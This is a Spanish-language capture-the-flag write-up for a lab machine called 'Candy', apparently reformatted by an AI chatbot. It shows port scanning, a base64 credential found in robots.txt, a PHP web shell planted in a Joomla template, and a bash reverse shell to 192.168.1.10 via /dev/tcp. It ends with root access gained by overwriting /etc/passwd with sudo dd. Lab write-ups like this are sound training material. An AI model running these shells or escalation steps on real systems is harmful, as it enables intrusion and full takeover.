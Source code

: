 Claro, aquí tienes **todo tu informe técnico completamente redactado**, con **explicaciones claras y mejoradas**, **manteniendo exactamente tus rutas de imágenes**, y **la primera imagen ubicada antes del título 🧩 Descripción y despliegue de la máquina**, tal como pediste:

---

# 📄 Reporte Técnico - Máquina Vulnerable: **Candy**

**Nivel:** Fácil


![Inicio del entorno](Imágenes/2025-05-14_23-56.png)

---


### 🧩 Descripción y despliegue de la máquina

Se descargó la máquina vulnerable `candy.zip` y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```


![Despliegue](Imágenes/Capturas.png)

---

### 🔗 Verificación de conectividad

Se hizo un ping para confirmar conexión con la máquina:

```bash
ping -c1 172.17.0.3
```


![Ping a la IP](Imágenes/Capturas_1.png)

---

### 🔍 Escaneo de puertos

Se usó Nmap para buscar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se detectó el puerto **80 (HTTP)**.


![Puertos detectados](Imágenes/Capturas_2.png)

Se escanearon versiones y scripts:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```


![Versión de servicios](Imágenes/Capturas_3.png)

---

### 🌐 Análisis del sitio web

Al ingresar a `http://172.17.0.3:80` se visualiza una página con formularios de login y registro.


![Página principal](Imágenes/Capturas_4.png)

---

### 📁 Enumeración de directorios

Se utilizó `gobuster` para descubrir rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron muchos directorios interesantes como:

```
/images /media /templates /modules /plugins /includes /language
/README.txt /components /api /cache /index.php /robots.txt /tmp
/LICENSE.txt /layouts /administrator /configuration.php /htaccess.txt /cli
```


![Directorios descubiertos](Imágenes/Capturas_5.png)

---

### 👤 Descubrimiento de usuario

Dentro del panel de administración (`/administrator/index.php`), se encontró el usuario: `TLuisilloo`.


![Panel admin](Imágenes/Capturas_6.png)

---

### 🔐 Análisis del archivo robots.txt

En `http://172.17.0.3/robots.txt` se encontró una posible credencial: `admin:c2FubHVpczEyMzQ1`.

Se decodificó con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Resultado: **sanluis12345**


![robots.txt](Imágenes/Capturas_7.png)
![Decodificación base64](Imágenes/Capturas_8.png)

---

### ✅ Acceso como administrador

Con `admin : sanluis12345` se ingresó exitosamente en:

* [http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)
* [http://172.17.0.3/index.php](http://172.17.0.3/index.php)


![Login exitoso 1](Imágenes/Capturas_9.png)
![Login exitoso 2](Imágenes/Capturas_10.png)

---

### 📂 Subida de web shell

Desde el panel: `System > Site Templates`, se puede modificar plantillas para subir código malicioso.


![Template editable](Imágenes/Capturas_11.png)

---

## 🔧 Método de Explotación 1: Web Shell PHP

En la línea 143 del archivo `index.php`, se insertó:

```php
<?php echo system($_GET['shadow']); ?>
```

Este código permite ejecutar comandos desde el navegador.

### Explicación:

* `$_GET['shadow']`: Toma el parámetro `shadow` de la URL.
* `system()`: Ejecuta ese comando.
* `echo`: Muestra el resultado.

### Ejemplos:

```http
http://172.17.0.3/index.php?shadow=ls
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```


![Web shell cargada](Imágenes/Capturas_12.png)
![Comando exitoso](Imágenes/Capturas_13.png)

---

## 🌀 Método 2: Reverse Shell en PHP

Se vuelve a insertar:

```php
<?php echo system($_GET['shadow']); ?>
```


![Insertar reverse shell](Imágenes/Capturas_14.png)

Se accede a:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

📌 Nota: Cambia la IP y el puerto por los tuyos.

Antes de ejecutarla, abre el puerto en escucha:

```bash
sudo nc -lvnp 433
```


![Reverse shell cargada](Imágenes/Capturas_15.png)
![Shell obtenida](Imágenes/Capturas_16.png)

---

## 🧗 Escalada de privilegios

Se buscaron archivos `.txt`:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró:

```
/var/backups/hidden/otro_caramelo.txt
```


![Archivo encontrado](Imágenes/Capturas_18.png)

Al revisar su contenido:

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

Se encontraron credenciales:

```php
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
```


![Credenciales](Imágenes/Capturas_17.png)

---

### 🧪 Sudo y escalada con `/bin/dd`

Accedimos con `luisillo` y se ejecutó:

```bash
sudo -l
```

Resultado:

```
(ALL) NOPASSWD: /bin/dd
```


![Permiso sudo](Imágenes/Capturas_18.png)

---

### 🔐 Modificando `/etc/passwd` para root shell

1. Copiar el archivo:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminar las `x` (que indican autenticación):

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribir `/etc/passwd` con permisos root:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Ingresar como root:

```bash
su
```


![Escalada completada](Imágenes/Capturas_19.png)
